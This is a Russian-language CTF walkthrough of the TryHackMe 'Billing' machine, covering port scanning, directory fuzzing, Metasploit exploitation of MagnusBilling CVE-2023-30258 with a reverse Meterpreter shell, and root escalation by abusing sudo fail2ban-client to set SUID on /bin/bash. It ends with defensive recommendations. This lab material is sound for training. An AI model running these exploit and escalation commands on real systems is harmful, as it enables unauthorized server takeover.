


# Billing


---

### 🇬🇧 Task Description

Some mistakes can be costly.

### 🇷🇺 Описание задачи

Некоторые ошибки могут дорого обойтись.

---

### 🔍 Шаг 1: Разведка (Reconnaissance)

Первым делом проверим доступность целевой машины и просканируем открытые порты.

#### 🏓 Проверка доступности (ping)

```bash
ping -c 4 10.130.150.67
```

**Результат:**

```text
PING 10.130.150.67 (10.130.150.67) 56(84) bytes of data.
64 bytes from 10.130.150.67: icmp_seq=1 ttl=62 time=430 ms
64 bytes from 10.130.150.67: icmp_seq=2 ttl=62 time=196 ms
64 bytes from 10.130.150.67: icmp_seq=3 ttl=62 time=81.2 ms
64 bytes from 10.130.150.67: icmp_seq=4 ttl=62 time=134 ms

--- 10.130.150.67 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3009ms
rtt min/avg/max/mdev = 81.247/210.551/430.458/133.312 ms
```

✅ Хост жив! `ttl=62` указывает на Linux-систему. Потерь пакетов нет, можно переходить к сканированию портов.

---

### 🧭 Шаг 2: Полное сканирование портов

Запускаем быстрый полный TCP-скан, чтобы не пропустить сервисы на нестандартных портах:

```bash
nmap -T5 -p- -sS -n --min-rate 5000 10.130.150.67
```

**Описание флагов:**
- `-T5` — агрессивный тайминг сканирования.
- `-p-` — проверить все TCP-порты.
- `-sS` — SYN-сканирование.
- `-n` — не выполнять DNS-резолвинг.
- `--min-rate 5000` — отправлять не меньше 5000 пакетов в секунду.

**Результат:**

```text
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-19 10:44 +0300
Warning: 10.130.150.67 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.130.150.67
Host is up (0.070s latency).
Not shown: 63582 closed tcp ports (reset), 1949 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
5038/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 22.76 seconds
```

Обнаружены четыре открытых порта: `22`, `80`, `3306` и `5038`. Теперь проверяем версии сервисов на найденных портах.

---

#### ⚡ Детальное сканирование найденных портов

```bash
nmap -sC -sV -p 22,80,3306,5038 10.130.150.67
```

**Описание флагов:**
- `-sC` — запуск стандартных NSE-скриптов.
- `-sV` — определение версий сервисов.
- `-p 22,80,3306,5038` — сканируем только найденные открытые порты.

**Результат:**

```text
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-19 10:45 +0300
Nmap scan report for 10.130.150.67
Host is up (0.068s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey:
|   256 50:eb:5c:7d:83:c0:da:93:84:8a:7a:eb:99:a3:29:3d (ECDSA)
|_  256 bf:0f:9c:82:2b:bb:97:87:2d:98:97:d8:c9:c6:da:ea (ED25519)
80/tcp   open  http     Apache httpd 2.4.62 ((Debian))
| http-title:             MagnusBilling
|_Requested resource was http://10.130.150.67/mbilling/
|_http-server-header: Apache/2.4.62 (Debian)
| http-robots.txt: 1 disallowed entry
|_/mbilling/
3306/tcp open  mysql    MariaDB 10.3.23 or earlier (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

#### 📊 Результаты сканирования

| Порт | Сервис | Версия | Примечание |
|------|--------|--------|------------|
| 22/tcp | SSH | OpenSSH 9.2p1 Debian | Возможная точка входа после получения учётных данных |
| 80/tcp | HTTP | Apache 2.4.62 | Веб-приложение MagnusBilling |
| 3306/tcp | MySQL/MariaDB | MariaDB 10.3.23 or earlier | Доступ без авторизации не получен |
| 5038/tcp | Asterisk AMI | Asterisk Call Manager 2.10.6 | Интерфейс управления Asterisk |

Сканирование HTTP показало редирект на `/mbilling/`, а также запись в `robots.txt`:

```text
Disallow: /mbilling/
```

Открываем веб-приложение в браузере:



Видим страницу входа **MagnusBilling**. Это биллинговая система для VoIP/телефонии, часто связанная с Asterisk. Порт `5038/tcp` также подтверждает наличие **Asterisk Manager Interface**, поэтому дальше основной интерес — веб-приложение MagnusBilling и возможные известные уязвимости для него.

---

### 🗂️ Шаг 3: Поиск директорий через ffuf

Для дополнительной разведки проверяем скрытые директории внутри `/mbilling/`:

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt \
-u "http://10.130.150.67/mbilling/FUZZ" \
-ic -c -s
```

**Описание флагов:**
- `-w` — путь к словарю для перебора.
- `-u` — URL с маркером `FUZZ`, который ffuf будет заменять словами из словаря.
- `-ic` — игнорировать комментарии в wordlist.
- `-c` — цветной вывод.
- `-s` — silent-режим, выводит только найденные значения без лишнего баннера.

**Результат:**

```text
archive
resources
assets
lib
LICENSE
tmp
protected
```

После ручного просмотра найденных директорий ничего очевидно полезного не обнаружилось: страницы входа, открытых конфигов или готовых учётных данных не нашли. Поэтому переходим к поиску известных уязвимостей для MagnusBilling.

---

### 🧨 Шаг 4: Поиск известных CVE для MagnusBilling

Поиск по MagnusBilling дал две интересные уязвимости:

| CVE | Тип | Опасность | Нужен ли логин |
|-----|-----|-----------|----------------|
| CVE-2023-30258 | RCE / Command Injection | Полный захват сервера | Нет |
| CVE-2025-2609 | Stored XSS | Захват админ-сессии или кража данных через браузер | Нет, но нужно взаимодействие пользователя |

**CVE-2023-30258** выглядит намного перспективнее для этой задачи: это unauthenticated command injection в MagnusBilling 6.x/7.x, то есть потенциальное выполнение команд без логина.

**CVE-2025-2609** — stored XSS в логах входа MagnusBilling. Это тоже серьёзная уязвимость, но для эксплуатации обычно нужно, чтобы кто-то с доступом к интерфейсу открыл заражённый лог. Для CTF-машины, где нам нужен прямой initial access, такой путь выглядит менее вероятным.

Вывод: хакерская интуиция тут не подводит — начинаем с **CVE-2023-30258**, потому что RCE без аутентификации намного лучше совпадает с обнаруженной поверхностью атаки и целью получить shell.

Полезные ссылки:

- [NVD: CVE-2023-30258](https://nvd.nist.gov/vuln/detail/CVE-2023-30258)
- [OpenCVE: CVE-2025-2609](https://app.opencve.io/cve/CVE-2025-2609)

---

### 💥 Шаг 5: Эксплуатация CVE-2023-30258 через Metasploit

Для эксплуатации **CVE-2023-30258** используем Metasploit. Это удобно, потому что в нём уже есть готовый модуль для MagnusBilling unauthenticated RCE, который сам проверяет уязвимость, подбирает нужный endpoint и поднимает reverse-сессию.

Запускаем Metasploit без баннера:

```bash
msfconsole -q
```

**Описание:**
- `msfconsole` — консоль Metasploit Framework.
- `-q` — quiet mode, запуск без стартового баннера.

---

#### 🔎 Поиск модуля по CVE

Внутри Metasploit ищем модуль по номеру CVE:

```text
search CVE:2023-30258
```

**Результат:**

```text
Matching Modules
================

   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258  2023-06-26       excellent  Yes    MagnusBilling application unauthenticated Remote Command Execution.
   1    \_ target: PHP                                            .                .          .      .
   2    \_ target: Unix Command                                   .                .          .      .
   3    \_ target: Linux Dropper                                  .                .          .      .
```

Metasploit нашёл модуль:

```text
exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
```

Разбор важных полей:

- `Rank: excellent` — модуль считается стабильным и надёжным.
- `Check: Yes` — модуль умеет проверять, уязвима ли цель, до запуска основной эксплуатации.
- `target: PHP` — выполнение через PHP payload.
- `target: Unix Command` — выполнение обычной Unix-команды.
- `target: Linux Dropper` — загрузка и запуск бинарного payload на Linux.

Для начала используем вариант по умолчанию — `PHP`, потому что приложение MagnusBilling работает как PHP-веб-приложение.

Выбираем найденный модуль:

```text
use 0
```

Metasploit сообщает:

```text
[*] Using configured payload php/meterpreter/reverse_tcp
```

Это значит, что по умолчанию выбран payload `php/meterpreter/reverse_tcp`: цель выполнит PHP-код, который подключится обратно к нашей машине и откроет Meterpreter-сессию.

---

#### ⚙️ Просмотр и настройка параметров

Смотрим параметры модуля:

```text
options
```

Нас интересуют основные настройки:

| Параметр | Значение | Для чего нужен |
|----------|----------|----------------|
| `RHOSTS` | пусто | IP-адрес целевой машины |
| `RPORT` | `80` | порт веб-приложения |
| `TARGETURI` | `/mbilling` | путь до MagnusBilling |
| `LHOST` | пусто | наш IP, на который придёт reverse-соединение |
| `LPORT` | `4444` | порт listener на нашей машине |

`TARGETURI` уже выставлен правильно: ранее `nmap` показал, что приложение доступно по `/mbilling/`.

Указываем IP цели:

```text
set rhosts 10.130.150.67
```

**Почему `RHOSTS`, а не `RHOST`?**

В новых модулях Metasploit часто используется `RHOSTS`, потому что параметр может принимать не только один IP, но и диапазоны целей. В нашем случае цель одна — `10.130.150.67`.

Указываем наш адрес для reverse shell:

```text
set lhost tun0
```

Metasploit сам определяет IP интерфейса `tun0`:

```text
lhost => 192.168.172.138
```

**Почему именно `tun0`?**

TryHackMe-машина находится за VPN, поэтому обратное подключение должно идти на VPN-адрес нашей Kali-машины. Интерфейс `tun0` как раз содержит этот адрес. Если указать локальный адрес не из VPN-сети или `127.0.0.1`, цель не сможет подключиться обратно.

---

#### 🧪 Первый запуск и AutoCheck

Запускаем модуль:

```text
run
```

Первый запуск завершился без сессии:

```text
[*] Started reverse TCP handler on 192.168.172.138:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.130.150.67:80 can be exploited.
[-] Exploit aborted due to failure: unknown: Cannot reliably check exploitability. No response received from target. "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
```

Что произошло:

- Metasploit поднял reverse TCP handler на `192.168.172.138:4444`.
- Перед эксплуатацией сработал `AutoCheck` — автоматическая проверка уязвимости.
- Проверка не получила надёжный ответ от цели, поэтому Metasploit остановил эксплуатацию.

Это не обязательно значит, что цель неуязвима. Иногда веб-приложение отвечает нестабильно, endpoint подвисает, запрос не успевает вернуться или проверка даёт ложный отрицательный результат. Поэтому повторяем запуск.

---

#### ✅ Успешная эксплуатация

Повторно запускаем:

```text
run
```

На этот раз проверка проходит успешно:

```text
[*] Started reverse TCP handler on 192.168.172.138:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.130.150.67:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 7 seconds.
[*] Elapsed time: 7.29 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (42137 bytes) to 10.130.150.67
[+] Deleted LwEZuyUOcdlR.php
[*] Meterpreter session 1 opened (192.168.172.138:4444 -> 10.130.150.67:41336) at 2026-05-19 11:18:56 +0300
```

Что здесь важно:

- `sleep command of 7 seconds` — модуль проверяет command injection через задержку. Если команда `sleep 7` реально выполнилась на сервере, ответ задержится примерно на 7 секунд.
- `Elapsed time: 7.29 seconds` — задержка совпала, значит команда выполнилась.
- `The target is vulnerable` — Metasploit подтвердил уязвимость.
- `Executing PHP for php/meterpreter/reverse_tcp` — модуль запускает PHP payload.
- `Sending stage` — Meterpreter догружает вторую часть payload.
- `Meterpreter session 1 opened` — reverse-соединение успешно установлено.
- `Deleted LwEZuyUOcdlR.php` — модуль удалил временный PHP-файл, который использовался во время эксплуатации.

---

#### 🖥️ Проверка полученной сессии

Смотрим информацию о системе:

```text
sysinfo
```

**Результат:**

```text
Computer        : ip-10-130-150-67
OS              : Linux ip-10-130-150-67 6.1.0-37-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.140-1 (2025-05-22) x86_64
Architecture    : x64
System Language : C
Meterpreter     : php/linux
```

Вывод подтверждает, что мы внутри Linux-системы на Debian, а Meterpreter работает через PHP.

Проверяем пользователя:

```text
getuid
```

**Результат:**

```text
Server username: asterisk
```

Мы получили выполнение кода от пользователя `asterisk`. Это логично: MagnusBilling связан с телефонией и Asterisk, а веб-приложение/сервисы на этой машине работают в контексте этого пользователя.

Для дальнейшей работы переходим из Meterpreter в обычный shell:

```text
shell
```

Metasploit создаёт канал:

```text
Process 3190 created.
Channel 0 created.
```

Стабилизируем shell через Python PTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Зачем это нужно?**

Первичный shell часто неудобный: без нормального prompt, истории команд, обработки Ctrl+C и терминальных возможностей. `pty.spawn("/bin/bash")` создаёт псевдотерминал и делает shell намного удобнее для дальнейшей локальной разведки.

После стабилизации видим:

```text
asterisk@ip-10-130-150-67:/var/www/html/mbilling/lib/icepay$
```

✅ Получили интерактивный shell на машине от пользователя `asterisk`.

---

### 🏴 Шаг 6: Локальная разведка и user.txt

После получения shell оказываемся внутри директории веб-приложения:

```text
/var/www/html/mbilling/lib/icepay
```

Проверяем содержимое текущей директории:

```bash
ls
```

**Результат:**

```text
icepay-cc.php          icepay-ideal.php       icepay-phone.php  null
icepay-ddebit.php     icepay-mistercash.php  icepay-sms.php
icepay-directebank.php icepay-paypal.php      icepay-wire.php
icepay-giropay.php    icepay-paysafecard.php icepay.php
```

Это библиотека платёжного модуля `icepay` внутри MagnusBilling. Для поиска пользовательского флага логично проверить домашние директории:

```bash
cd /home
ls
```

**Результат:**

```text
debian  magnus  ssm-user
```

Видим пользователя `magnus`, что хорошо совпадает с названием приложения **MagnusBilling**. Переходим в его домашнюю директорию:

```bash
cd /home/magnus
ls
```

**Результат:**

```text
Desktop    Downloads  Pictures  Templates  user.txt
Documents  Music      Public    Videos
```

Находим `user.txt` и читаем флаг:

```bash
cat user.txt
```

**Результат:**

```text
THM{********************************}
```

✅ Пользовательский флаг найден.

---

### 👑 Шаг 7: Повышение привилегий через `fail2ban-client`

После получения пользовательского флага проверяем sudo-права текущего пользователя `asterisk`:

```bash
sudo -l
```

**Результат:**

```text
Matching Defaults entries for asterisk on ip-10-130-150-67:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-130-150-67:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

🔥 Пользователь `asterisk` может запускать `/usr/bin/fail2ban-client` от имени любого пользователя (`ALL`) без пароля (`NOPASSWD`).

Это очень опасная sudo-настройка. `fail2ban-client` управляет сервисом Fail2Ban: можно добавлять actions, менять команды, которые выполняются при бане IP, и вручную вызывать бан. Если `fail2ban-client` запущен через `sudo`, команды action выполняются с root-привилегиями.

---

#### 📚 GTFOBins: fail2ban-client

Ищем `fail2ban-client` на [GTFOBins](https://gtfobins.github.io/):



GTFOBins показывает, что `fail2ban-client` можно использовать для выполнения системных команд, если он доступен через `sudo`. Идея такая:

1. Добавить новую action в существующий jail.
2. Изменить команду `actionban` на нужную нам команду.
3. Вызвать `banip`, чтобы Fail2Ban выполнил `actionban`.

Мы используем jail `sshd`, потому что он обычно уже существует и активен.

---

#### 🧨 Создание вредной action

Добавляем новую action с именем `evil` в jail `sshd`:

```bash
sudo fail2ban-client set sshd addaction evil
```

**Результат:**

```text
evil
```

Что происходит:

- `sudo` — запускаем команду с повышенными привилегиями.
- `fail2ban-client` — управляющая утилита Fail2Ban.
- `set sshd` — изменяем настройки jail `sshd`.
- `addaction evil` — добавляем новую action с именем `evil`.

Теперь в jail `sshd` есть action, которую можно настроить.

---

#### ⚙️ Подмена команды `actionban`

Меняем команду, которая будет выполнена при бане IP:

```bash
sudo fail2ban-client set sshd action evil actionban "chmod u+s /bin/bash"
```

**Результат:**

```text
chmod u+s /bin/bash
```

Разбор:

- `action evil` — выбираем созданную action `evil`.
- `actionban` — команда, которая выполняется при бане IP-адреса.
- `"chmod u+s /bin/bash"` — наша команда: поставить SUID-бит на `/bin/bash`.

**Почему именно `chmod u+s /bin/bash`?**

SUID-бит (`u+s`) заставляет исполняемый файл запускаться с правами владельца файла. `/bin/bash` принадлежит `root`, значит после установки SUID-бита мы сможем запустить bash так, чтобы он сохранил root-привилегии.

---

#### 🚫 Триггер action через `banip`

Запускаем бан произвольного IP-адреса:

```bash
sudo fail2ban-client set sshd banip 1.2.3.4
```

**Результат:**

```text
1
```

Этот IP не обязан быть реальным. Нам важно не заблокировать конкретного атакующего, а заставить Fail2Ban выполнить `actionban`. Так как `actionban` мы подменили на `chmod u+s /bin/bash`, при выполнении `banip` на `/bin/bash` устанавливается SUID-бит.

---

#### 🐚 Получение root-shell через SUID bash

Запускаем Bash в privileged mode:

```bash
bash -p
```

**Почему нужен `-p`?**

Bash часто сбрасывает повышенные привилегии, если реальный UID и эффективный UID отличаются. Флаг `-p` включает privileged mode и сохраняет эффективные привилегии. Так SUID-bash остаётся root-shell.

После запуска видим root prompt:

```text
bash-5.2#
```

Переходим в `/root`:

```bash
cd /root
ls
```

**Результат:**

```text
filename  passwordMysql.log  root.txt
```

Читаем root-флаг:

```bash
cat root.txt
```

**Результат:**

```text
THM{********************************}
```

🔴 **Root-флаг получен!** Машина полностью скомпрометирована.

---

## 🏁 Итог

Машина **Billing** успешно пройдена по цепочке атак:

> 🔍 Recon → 🌐 MagnusBilling Web App → 🗂️ Directory Fuzzing → 🧨 CVE-2023-30258 RCE → 🐚 Meterpreter/Shell as asterisk → 🏴 User Flag → 🔎 sudo -l → 🛡️ fail2ban-client Abuse → 💥 SUID bash → 👑 Root

**Ключевые точки:**

- 🔎 **Полное сканирование портов** — обнаружили не только SSH и HTTP, но также MariaDB на `3306/tcp` и Asterisk Manager Interface на `5038/tcp`, что хорошо совпало с тематикой VoIP-биллинга.
- 🌐 **MagnusBilling** — веб-приложение находилось по пути `/mbilling/`, который также был указан в `robots.txt`.
- 🗂️ **ffuf enumeration** — перебор директорий показал `archive`, `resources`, `assets`, `lib`, `tmp`, `protected`, но открытых конфигов или готовых учётных данных не дал.
- 🧨 **CVE-2023-30258** — unauthenticated command injection/RCE оказался более подходящим путём, чем stored XSS CVE-2025-2609.
- 🧰 **Metasploit** — модуль `magnusbilling_unauth_rce_cve_2023_30258` подтвердил уязвимость через `sleep 7` и открыл Meterpreter-сессию.
- 🐚 **Initial Access** — получили shell от пользователя `asterisk`, что логично для машины с MagnusBilling/Asterisk.
- 🏴 **User Flag** — после локальной разведки нашли пользователя `magnus` и забрали `user.txt`.
- 🛡️ **Privilege Escalation через fail2ban-client** — `sudo -l` показал, что `asterisk` может запускать `/usr/bin/fail2ban-client` без пароля. Через подмену `actionban` поставили SUID-бит на `/bin/bash`.
- 👑 **Root** — запуск `bash -p` сохранил повышенные привилегии и дал root-shell.

**Рекомендации по защите:**

- 🔄 Обновить MagnusBilling до версии, не уязвимой к CVE-2023-30258.
- 🔒 Не выставлять административные панели биллинга напрямую наружу; ограничивать доступ VPN, firewall-правилами или reverse proxy с аутентификацией.
- 🧱 Ограничить доступ к Asterisk AMI (`5038/tcp`) только доверенным хостам.
- ❌ Не выдавать веб/сервисным пользователям опасные sudo-права, особенно `NOPASSWD` на утилиты управления сервисами.
- 🛡️ Запретить `asterisk` запускать `fail2ban-client` через sudo или ограничить разрешённые команды максимально точными sudoers-правилами.
- 🔍 Регулярно проверять SUID-бинарники и sudoers-конфигурацию на предмет опасных путей повышения привилегий.

---

Автор: **masquadd** 👾
